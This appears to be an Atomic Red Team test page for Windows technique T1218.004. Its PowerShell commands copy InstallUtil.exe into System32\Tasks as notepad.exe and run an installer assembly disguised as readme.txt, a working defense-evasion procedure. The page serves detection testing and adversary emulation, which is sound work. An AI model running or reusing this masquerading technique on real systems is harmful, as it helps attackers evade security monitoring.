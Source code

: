 


<br/>
<br/>

## Atomic Test #8 - InstallUtil evasive invocation
Executes an InstallUtil assembly by renaming InstallUtil.exe and using a nonstandard extension for the assembly. Upon execution, "Running a transacted installation."
will be displayed, along with other information about the opperation. "The transacted install has completed." will be displayed upon completion.

**Supported Platforms:** Windows


**auto_generated_guid:** 559e6d06-bb42-4307-bff7-3b95a8254bad





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| test_harness | location of the test harness script - Invoke-BuildAndInvokeInstallUtilAssembly | Path | PathToAtomicsFolder&#92;T1218.004&#92;src&#92;InstallUtilTestHarness.ps1|


#### Attack Commands: Run with `powershell`! 


```powershell
# Import the required test harness function, Invoke-BuildAndInvokeInstallUtilAssembly
. #{test_harness}

$InstallerAssemblyDir = "$Env:windir\System32\Tasks"
$InstallerAssemblyFileName = 'readme.txt'
$InstallerAssemblyFullPath = Join-Path -Path $InstallerAssemblyDir -ChildPath $InstallerAssemblyFileName

$CommandLine = "readme.txt"
$ExpectedOutput = 'Constructor_'

# Explicitly set the directory so that a relative path to readme.txt can be supplied.
Set-Location "$Env:windir\System32\Tasks"

Copy-Item -Path "$([System.Runtime.InteropServices.RuntimeEnvironment]::GetRuntimeDirectory())InstallUtil.exe" -Destination "$Env:windir\System32\Tasks\notepad.exe"

$TestArgs = @{
    OutputAssemblyDirectory = $InstallerAssemblyDir
    OutputAssemblyFileName = $InstallerAssemblyFileName
    InvocationMethod = 'Executable'
    CommandLine = $CommandLine
    InstallUtilPath = "$Env:windir\System32\Tasks\notepad.exe"
}

$ActualOutput = Invoke-BuildAndInvokeInstallUtilAssembly @TestArgs -MinimumViableAssembly

if ($ActualOutput -ne $ExpectedOutput) {
    throw @"
Evasive Installutil invocation test failure. Installer assembly execution output did not match the expected output.
Expected: $ExpectedOutput
Actual: $ActualOutput
"@
}
```
